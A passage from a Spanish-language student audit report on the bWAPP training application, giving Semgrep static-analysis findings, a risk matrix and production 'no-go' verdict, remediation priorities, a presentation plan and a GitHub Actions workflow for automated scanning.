Distribuido sobre **198 archivos**, la densidad de riesgo promedio es de **2.71 puntos por archivo**, un valor extraordinariamente elevado.

### 8.2 Matriz y Semáforo de Postura por Proyecto

| Proyecto | Hallazgos | Nivel de Criticidad | Semáforo de Postura | Justificación Técnica de Riesgo |
| :--- | :---: | :---: | :---: | :--- |
| **Core bWAPP** | 103 | Mayoría Alta (60) | 🔴 **Crítica** | Presencia masiva de inyecciones SQL explotables, múltiples puntos de RCE directo (`eval`, `shell_exec`), LFI y XSS. |
| **soap (NuSOAP)** | 32 | Parcial Alta (6) / Media (26) | 🟠 **Alta** | Dependencia de terceros con criptografía rota (MD5/DES) y funciones deprecadas en PHP contemporáneo. |
| **admin** | 3 | Baja / Media | 🟡 **Media** | Exposición de configuración sensible mediante `phpinfo()` y contraseñas fijas por defecto en el código fuente. |

### 8.3 Lectura Ejecutiva del Estado de la Aplicación
> **Dictamen de Auditoría:** **NO APTO PARA PRODUCCIÓN (NO-GO)**.  
> La postura de seguridad global del sistema es **Crítica**. En un entorno corporativo real, los hallazgos identificados representan un riesgo inminente de exfiltración completa de la base de datos de clientes, robo de credenciales maestras y toma de control total de la infraestructura de servidores web a través de ejecución remota de comandos. Cualquier despliegue queda formalmente bloqueado hasta la subsanación de los hallazgos de severidad Alta.

### 8.4 Las 4 Prioridades Estratégicas de Remediación
1. **Prioridad 1 — Parametrización Universal de Consultas SQL:**  
   Prohibir de forma absoluta la concatenación de variables en sentencias SQL. Obligar el uso de PDO o MySQLi con *Prepared Statements* en los 50 endpoints afectados.
2. **Prioridad 2 — Erradicación de Vectores RCE y Shell:**  
   Eliminar el constructor `eval()` de la base de código. Reemplazar invocaciones a `shell_exec()` por librerías nativas de PHP o sanitización con listas blancas y `escapeshellarg()`.
3. **Prioridad 3 — Sanitización Contextual de Salida HTML:**  
   Implementar una política de codificación contextual mediante `htmlspecialchars($var, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8')` en todas las plantillas y vistas para neutralizar Cross-Site Scripting (XSS).
4. **Prioridad 4 — Modernización Criptográfica y Gestión Segura de Secretos:**  
   Reemplazar funciones de hash MD5/SHA-1 por `password_hash()` con algoritmo Argon2id. Extraer contraseñas de base de datos quemadas en archivos PHP hacia variables de entorno protegidas o un gestor de secretos (*Vault*).

---

## 9. T8 — Despliegue de Resultados y Presentación Navegable (10 Puntos)

Para cumplir con el requerimiento de entrega navegable e interactiva (T8), se construyó y desplegó el aplicativo web **Dashboard SAST Semgrep**, disponible localmente en el archivo [`index.html`](index.html).

### 9.1 Características del Dashboard Navegable
- **Tecnología:** SPA (*Single Page Application*) desarrollada en HTML5, CSS moderno responsive (paleta Dark Cybersecurity) y JavaScript vainilla, totalmente autocontenida sin requerir dependencias externas ni servidores web locales (abrible directamente con protocolo `file:///`).
- **Métricas en Tiempo Real:** Tarjetas de puntuación ponderada (538 pts), distribución por severidad y semáforo visual por módulo.
- **Visualizador de Gráficas Oficiales:** Galería interactiva con las 5 gráficas analíticas generadas por `analyze.py`.
- **Explorador Dinámico de Hallazgos:** Tabla con filtrado reactivo por proyecto, nivel de severidad y buscador de texto libre por archivo, CWE o regla.
- **Laboratorio de Remediación:** Fichas técnicas interactivas que muestran comparativas lado a lado de código vulnerable vs remediado.
- **Pestaña de Triaje:** Caso de estudio interactivo del falso positivo de Base64.
- **Modo Presentador (Pitch Deck):** Vista diapositiva por diapositiva integrada en el dashboard, permitiendo realizar la exposición formal ante el docente y el grupo con control de avance.

### 9.2 Guion de Exposición para Presentación ante el Grupo
- **Minuto 0:00 - 1:30 (Introducción):** Presentación del estudiante, alcance de la auditoría estática sobre bWAPP y justificación del uso de Semgrep como motor SAST de última generación con soporte para Taint Tracking.
- **Minuto 1:30 - 3:30 (Hallazgos y Métricas):** Demostración del Dashboard interactivo. Explicación de los 138 hallazgos globales, destacando que el 48% son de severidad Alta y que la categoría OWASP A03 (Injection) acumula más del 52% del riesgo con 73 ocurrencias.
- **Minuto 3:30 - 5:30 (Casos Críticos y Remediación):** Exposición de dos casos prácticos: Inyección SQL en `sqli_1.php` y Ejecución de Comandos en `commandi.php`, proyectando el código vulnerable y explicando por qué las consultas preparadas y `escapeshellarg()` resuelven la causa raíz.
- **Minuto 5:30 - 7:00 (Triaje de Falso Positivo):** Análisis del falso positivo en NuSOAP (`base64_encode`), explicando la diferencia entre codificación y cifrado y mostrando el parche YAML propuesto.
- **Minuto 7:00 - 8:30 (Postura Ejecutiva y Cierre):** Presentación del índice de riesgo (538 pts), dictamen de bloqueo de pase a producción, demostración del pipeline CI/CD en GitHub Actions y sesión de preguntas y respuestas.

---

## 10. Integración Continua con CI/CD (Puntos Extra +5)

Para automatizar la verificación de seguridad en el ciclo de integración continua, se diseñó e integró un flujo de trabajo de **GitHub Actions** en el archivo [`.github/workflows/semgrep.yml`](.github/workflows/semgrep.yml):

```yaml
name: semgrep-sast

on:
  push:
    branches: [ main, master ]
  pull_request:
    branches: [ main, master ]

jobs:
  semgrep:
    name: Semgrep SAST Scan
    runs-on: ubuntu-latest
    permissions:
      security-events: write
      actions: read
      contents: read
    steps:
      - name: Checkout repository
        uses: actions/checkout@v4

      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: '3.11'

      - name: Install Semgrep
        run: pip install semgrep

      - name: Run Semgrep SAST Scan
        run: |
          semgrep scan --config php-sast-rules.yml --metrics=off --disable-version-check --no-git-ignore --sarif -o semgrep.sarif bWAPP-app

      - name: Upload SARIF to GitHub Code Scanning
        uses: github/codeql-action/upload-sarif@v3
        if: always()
        with:
          sarif_file: semgrep.sarif
```

### Beneficios del Flujo de CI/CD Implementado:
1. **Escaneo Automatizado en cada Commit:** Cada `git push` o *Pull Request* ejecutado por el equipo de desarrollo dispara automáticamente la auditoría de Semgrep sobre Ubuntu Latest.
2. **Exportación SARIF Estándar:** Los hallazgos se generan bajo el formato estándar SARIF (`semgrep.sarif`).
3. **Integración Nativa con GitHub Security:** La acción `github/codeql-action/upload-sarif@v3` consume el archivo SARIF y publica las alertas de vulnerabilidad directamente en la pestaña **Security → Code scanning** del repositorio de GitHub, permitiendo bloquear mezclas de código (*merges*) que introduzcan nuevas vulnerabilidades críticas.

---

## 11. Conclusiones

1. **Efectividad del SAST en la Detección Precoz:** El análisis estático con Semgrep permitió auditar 198 archivos PHP en pocos segundos, identificando 138 puntos vulnerables que habrían requerido semanas de revisión manual de código o pruebas dinámicas complejas.
2. **Relevancia del Modelo Taint Tracking:** Las reglas basadas en seguimiento de flujo de datos (*taint*) demostraron ser significativamente más precisas para detectar inyecciones SQL y de comandos que las búsquedas estáticas convencionales, ya que verifican si los datos no confiables alcanzan funciones críticas sin desinfección.
3. **El Rol Ineludible del Analista (Triaje):** Ninguna herramienta SAST es 100% infalible. El análisis del falso positivo de `base64_encode()` en NuSOAP confirma que el criterio técnico del analista de ciberseguridad es indispensable para contextualizar alertas, ajustar reglas y evitar el desgaste de los equipos de desarrollo.
4. **Cultura DevSecOps y Automatización:** Integrar escaneos SAST en pipelines de CI/CD mediante SARIF transforma la seguridad de ser un obstáculo al final del proyecto en una compuerta continua de aseguramiento de calidad dentro del ciclo de desarrollo ágil.

---

## 12. Referencias Bibliográficas

- Mesellem, M. (2014). *bWAPP: an extremely buggy web application*. ITSEC Games. http://www.itsecgames.com
- MITRE Corporation. (2024). *Common Weakness Enumeration (CWE) List*. https://cwe.mitre.org
- OASIS Standard. (2019). *Static Analysis Results Interchange Format (SARIF) Version 2.1.0*. OASIS Open. https://docs.oasis-open.org/sarif/sarif/v2.1.0/sarif-v2.1.0.html
- Open Web Application Security Project. (2021). *OWASP Top 10: 2021 - The Ten Most Critical Web Application Security Risks*. OWASP Foundation. https://owasp.org/Top10/
- Semgrep Inc. (2024). *Semgrep Documentation: Writing custom rules and taint analysis*. Semgrep Docs. https://semgrep.dev/docs/
- Stuttard, P., & Pinto, M. (2011). *The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws* (2nd ed.). John Wiley & Sons.
